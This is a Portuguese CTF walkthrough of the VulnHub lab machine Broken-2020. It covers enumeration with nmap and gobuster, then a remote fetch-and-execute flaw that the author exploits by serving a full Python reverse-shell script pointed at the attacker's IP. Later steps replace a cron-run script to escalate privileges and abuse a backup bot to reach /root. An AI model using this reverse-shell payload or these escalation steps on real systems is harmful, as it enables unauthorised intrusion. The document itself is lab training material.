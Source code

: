 ## Broken-2020: 1

- Link para download: https://www.vulnhub.com/entry/broken-2020-1,470/

1) Máquina importada no VirtualBox, executo o _arp-scan_ para ver o endereço IP:
```
root@parrot:~# arp-scan --interface=eth0 192.168.56.0/24
Interface: eth0, type: EN10MB, MAC: 08:00:27:79:a6:a0, IPv4: 192.168.56.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.100  08:00:27:7c:9f:5d       PCS Systemtechnik GmbH
192.168.56.104  08:00:27:3d:f6:30       PCS Systemtechnik GmbH

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 3 responded
```
Está rodando no endereço de final **104**.

2) Rodo o _nmap_ para verificar as portas e serviços:
```
root@parrot:~# nmap -p- -sV -sC -T5 -A -oN nmap_broken 192.168.56.104
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 14:22 -03
Nmap scan report for broken (192.168.56.104)
Host is up (0.00046s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 7e:f3:33:8c:be:0c:ed:d7:0e:c6:67:cc:73:bf:c0:ab (RSA)
|   256 ee:ed:74:02:0d:3f:7d:6d:45:aa:ff:f3:3a:d0:1a:d9 (ECDSA)
|_  256 d1:18:a9:ef:7f:b6:c8:a9:30:52:c8:e6:b6:ec:64:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: hacked
MAC Address: 08:00:27:3D:F6:30 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms broken (192.168.56.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

Duas portas comuns em CTF's, 22 rodando ssh e a 80 um serviço web. De pronto identifico que é uma versão bem recente do _OpenSSH_, não lembro de ter lido nada a respeito de nenhuma falha relevante de segurança, parto para o serviço web.

3) Com o intuito de identificar as URL's que estão executando sob o Apache, executo o _gobuster_:
```
root@parrot:~# gobuster dir -u http://192.168.56.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:26:36 Starting gobuster
===============================================================
/images (Status: 301)
/cms (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
===============================================================
2020/08/15 14:27:49 Finished
```
Checo o que está respondendo no contexto _/cms_. Tem um botão, eu clico e... Curioso testo uma possível abertura para **Path Traversal** (https://owasp.org/www-community/attacks/Path_Traversal) ou **Command Injection** (https://owasp.org/www-community/attacks/Command_Injection) e recebo a primeira flag (nada mais interessante por aqui).

4) Executo novamente o gobuster a partir de _/cms_:
```
root@parrot:~# gobuster dir -u http://192.168.56.104/cms -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken_cms
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104/cms
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:30:30 Starting gobuster
===============================================================
/cc (Status: 301)
===============================================================
2020/08/15 14:31:34 Finished
===============================================================
```
Checando o novo contexto me deparo com a seguinte página:

![imagem](https://raw.githubusercontent.com/ridlaw/capturetheflag/gh-pages/pics/execucao_de_comando_broken.png)

Hum, será que podemos hackear qualquer servidor passando IP/porta? Vamos testar, executo um listener via netcat, coloco meu endereço IP e a porta que estou executando e clico em 'hack':
```
root@parrot:~# nc -nlvp 31337
listening on [any] 31337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 50500
GET /5eeea87977793dc143b995f6a104d62d.sh HTTP/1.0
Host: 192.168.56.105:31337
Connection: close
```
Interessante, ele tentou um GET no meu endereço buscando esse .sh. Bom, o que podemos fazer? Vamos reproduzir o que ele busca, crio um '5eeea87977793dc143b995f6a104d62d.sh' com um shell reverso:
```
root@parrot:/tmp/broken# cat 5eeea87977793dc143b995f6a104d62d.sh
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Subo um servidor web via python para ele buscar o .sh e mantenho um listener netcat com a porta que adicionei na linha do shell reverso. Clico novamente em 'hack' e:
```
root@parrot:~# nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 59902
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html/cms/cc
```
Estou dentro! Agora vamos continuar caçando.

5) Vou ao /home e encontro o diretório da alice, lá consigo mais uma flag. Lá também tem uma nota com o seguinte conteúdo:
```
Alice,

Please do not install TrustMeCMS, I need check the source before

PS: I created a script to clear apache log during the tests

root
```
Ok senhor root, obrigado pela informação.

6) Ainda na home da alice tem um diretório chamado 'script', dentro dele um script em python e um .log, interessante.

7) Rodo o linpeas.sh e não vejo nada de interessante na saída, ao executar o pspy64 para checar se existe algo agendado, eis que:
```
2020/08/15 00:08:01 CMD: UID=0    PID=23585  | /bin/sh -c sudo -u alice python /home/alice/script/log.py
2020/08/15 00:08:01 CMD: UID=0    PID=23587  | sudo -u alice python /home/alice/script/log.py
```
Bom, acho que a partir daí vou escalar os meus privilégios.

8) Para a minha surpresa ao voltar ao diretório 'script' tenho permissão de gravação, bom, vou substituir o arquivo log.py pelo MEU log.py :)

9) Faço a substituição com o mesmo script que utilizei como shell reverso (organizado com os imports e as outras linhas ordenadas), configuro novamente um listener via netcat e aguardo o agendamento:
```
$ whoami
whoami
alice
```
Ótimo, agora sou a alice rsrs.

10) Agora tenho permissão de acesso a um diretório que antes não conseguia acessar, o 'backup'. A, e tem outra flag lá.

11) Em mais uma nota do senhor root ele diz o seguinte:
```
Alice we have been hacked !

Please put the path of the website backup directory in path.txt, my bot will do the rest

thx

root
```
Agora te peguei! Adiciono o /root no path.txt e pouco tempo depois tenho o diretório do root no backup, lá dentro tem a última flag:
```
Congratulation for the root flag !

     _________
    / ======= \
   / __________\
  | ___________ |
  | | -root-  | |
  | |         | |
  | |_________| |_____________________________________________________________________
  \=____________/                     enjoyed this VM ?                               )
  / """"""""""" \                     I love bitcoin                                 /
 / ::::::::::::: \           1Ba6vFEamUenzrXr4scGQ8QLya7t7zYZ1S                  =D-'
(_________________)
```

